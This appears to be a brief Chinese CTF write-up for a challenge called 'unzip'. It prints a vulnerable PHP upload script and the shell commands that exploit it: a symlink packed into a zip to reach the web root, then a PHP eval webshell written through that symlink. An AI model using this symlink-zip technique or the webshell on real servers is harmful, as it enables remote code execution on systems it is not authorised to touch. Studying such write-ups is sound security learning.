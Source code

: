 - # unzip
  
  - 上传zip，看到`upload.php`源码
    
    - ```php
      <?php
      error_reporting(0);
      highlight_file(__FILE__);
      
      $finfo = finfo_open(FILEINFO_MIME_TYPE);
      if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
          exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
      };
      ```
  
  - 我们可以使用zip创建软链接并向软链接中写入文件
  
  - 首先考虑将`/var/www/html`文件夹软链接到`/tmp`文件夹中
    
    - ```shell
      # cube @ fedora in /tmp .venv [10:33:12] 
      $ ln -s /var/www/html/ html          
      (.venv) 
      # cube @ fedora in /tmp .venv [10:33:23] C:130
      $ zip --symlinks archive.zip html
      ```
    - 上传archive.php即可
  
  - 然后将`html/test.php`写入archive.zip
    
    - ```shell
      # cube @ fedora in /tmp .venv [10:36:43] C:1
      $ echo '<?php eval($_POST["data"]);?>' | sudo tee html/test.php
      [sudo] cube 的密码：
      <?php eval($_POST["data"]);?>
      (.venv) 
      # cube @ fedora in /tmp .venv [10:36:49] 
      $ zip archive.zip html/test.php
      updating: html/test.php (stored 0%)
      ```
  
  - 最后访问`test.php`即可得到webshell